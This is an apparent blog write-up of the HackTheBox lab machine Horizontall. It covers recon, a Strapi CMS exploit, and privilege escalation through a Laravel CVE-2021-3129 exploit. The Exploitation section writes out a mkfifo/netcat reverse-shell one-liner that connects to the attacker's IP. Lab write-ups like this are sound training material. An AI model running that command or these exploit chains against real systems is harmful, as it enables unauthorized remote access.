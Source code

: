 ```yaml
---
title: Horizontall WriteUp @HackTheBox
author: MBZ0x7
date: 2022-02-06 15:10:00 +0800
categories: [Penetration Testing]
tags: [linux,web,pentest,hackthebox]
pin: false
---
```

Hello, here's my writeup for Horizontall linux machine from HackTheBox, which I pwned few days ago before it gots retired. 

![](../../assets/posts/3/0.jpeg)
# <font color='red'>Information Gathering </font>
---
```
sudo nmap -sV 10.10.11.105
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Visiting 10.10.11.105 showed horizontall.htb, so I updated ```/etc/hosts```.

![](../../assets/posts/3/1.png)

When diging into website source code, I haven't found anything useful. So, immediately I decided to bruteforce subdirectories, which also reveals nothing unfortunately.

Then, I decided to bruteforce subdomains. I used gobuster with one of seclists wordlists, which revealed 1 subdomain. So, as previously I updated my hosts file.
![](../../assets/posts/3/2.png)

Here is how the subdomain looked up. Nothing of interest.
![](../../assets/posts/3/3.png)
So, I bruteforced subdirectories which showed 2 (/admin and /reviews).
![](../../assets/posts/3/4.png)
When visiting /admin subdir, I discovered that I'll be dealing with ```strapi CMS```.
![](../../assets/posts/3/5.png)
/reviews is useless.
![](../../assets/posts/3/6.png)
Trying default credentials wasn't successful, so I tried to find strapi version to look for CVEs which I found in one JS file. It was ```3.0.0-beta.17.4```.
![](../../assets/posts/3/7.png)
Looking into exploit-db, I found 1st and 3rd ones potentially applicable. 
![](../../assets/posts/3/8.png)

# <font color='red'>Exploitation</font>
---
I copied exploit-db 1st exploit into current directory using searchsploit command.
![](../../assets/posts/3/9.png)
 Then, executed it and used ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.81 4444 >/tmp/f``` to get reverse shell to netcat.
![](../../assets/posts/3/10.png)
Then, I found the user flag in developer account home directory.
![](../../assets/posts/3/11.png)

# <font color='red'>Privilege Escalation</font>
---
For PrivEsc, I run linPEAS after transfering its shell script file to the compromised machine. 

From its output, ports 8000 and 3306 caught my attention.
![](../../assets/posts/3/12.png)
I run ```curl http://127.0.0.1:8000``` and got a Laravel 8 website running locally.
![](../../assets/posts/3/13.png)
Visiting exploit-db, I found an RCE exploit that looks promissing. 
![](../../assets/posts/3/14.png)
For whatever reason it hasn't worked for me. So, I searched another one and found it 
[here](https://github.com/nth347/CVE-2021-3129_exploit). which got me arbitrary code execution on the root account ,and got the flag.
![](../../assets/posts/3/15.png)
